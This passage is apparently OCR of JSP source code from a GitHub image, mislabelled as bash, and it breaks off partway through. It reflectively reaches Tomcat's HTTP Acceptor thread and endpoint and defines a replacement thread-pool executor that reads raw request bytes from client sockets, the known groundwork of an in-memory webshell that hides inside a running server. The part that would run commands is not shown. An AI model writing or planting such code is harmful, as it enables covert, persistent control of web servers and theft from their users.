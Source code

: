 ```bash
<%@ page contentType="text/html;charset=UTF-8" language="java" %>

<%!
    public Object getField(Object object, String fieldName) {
        Field declaredField;
        Class<?> clazz = object.getClass();
        while (clazz != Object.class) {
            try {
                declaredField = clazz.getDeclaredField(fieldName);
                declaredField.setAccessible(true);
                return declaredField.get(object);
            } catch (NoSuchFieldException | IllegalAccessException ignored) {}
            clazz = clazz.getSuperclass();
        }
        return null;
    }

    public Object getStandardService() {
        Thread[] threads = (Thread[]) this.getField(Thread.currentThread().getThreadGroup(), "threads");
        for (Thread thread : threads) {
            if (thread == null) {
                continue;
            }
            if ((thread.getName().contains("Acceptor")) && (thread.getName().contains("http"))) {
                Object target = this.getField(thread, "target");
                Object jioEndPoint = null;
                try {
                    jioEndPoint = getField(target, "this$0");
                } catch (Exception ignored) {}
                if (jioEndPoint == null) {
                    try {
                        jioEndPoint = getField(target, "endpoint");
                        return jioEndPoint;
                    } catch (Exception e) {
                        new Object();
                    }
                } else {
                    return jioEndPoint;
                }
            }
        }
        return new Object();
    }

    class threadexcutor extends ThreadPoolExecutor {

        public threadexcutor(int corePoolSize, int maximumPoolSize, long keepAliveTime, TimeUnit unit, BlockingQueue<Runnable> workQueue, ThreadFactory threadFactory, RejectedExecutionHandler handler) {
            super(corePoolSize, maximumPoolSize, keepAliveTime, unit, workQueue, threadFactory, handler);
        }

        public void getRequest(Runnable command) {
            try {
                ByteBuffer byteBuffer = ByteBuffer.allocate(16384);
                byteBuffer.mark();
                SocketWrapperBase socketWrapperBase = (SocketWrapperBase) getField(command, "socketWrapper");
                socketWrapperBase.read(false, byteBuffer);
                ByteBuffer readBuffer = (ByteBuffer) getField(getField(socketWrapperBase, "socketBufferHandler"), "readBuffer");
```